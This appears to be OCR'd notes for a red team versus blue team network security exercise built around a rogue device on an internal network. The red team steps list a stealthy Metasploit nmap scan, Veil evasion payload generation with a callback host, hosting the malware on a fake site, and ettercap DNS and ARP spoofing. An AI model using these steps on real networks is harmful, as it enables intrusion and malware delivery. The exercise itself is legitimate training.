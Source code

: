 Scenario : Bobby Admin is NEW TEMP HIRE
: Network has been compromised with an internal device fitted
as a rogue device on the internal network

Blue team : Monitor Wireshark packets

Red team : have LAPTOP ON INTERNAL NETWORK

       KaliVM
       service postgresql start
       msf ==> command line => run this scan
              ==> db_nmap -T1 -A -D <<IP range>>         

Blue team : can we spot that a scan is taking place???

       ((Possibly not if the scan is a 'slow' scan))

Red : INTENSE SCAN using Armitage MSF GUI

Blue team : can we spot an attack now?

Blue team : incident response?

       Playbook would guide person what to do



Red team : change IP

Red team : set up website on Linux Apache


   cd Veil
       
       ./Veil.py
       
       use evasion
       
       use 5
       
       set lhost 1.2.3.4
       
       generate
       
       create and copy the malware to your website



red team : hack into dns and update dns with a fake record to the fake site with ettercap

red team : also hack into arp cache using ettercap

blue team : monitor wireshark

blue : go to phishing website

red : Ettercap : Mitm => stop MiTM attack

red : msfconsole


       note : red team has been lured into a honeypot here so blue team can monitor



blue : wireshark capture
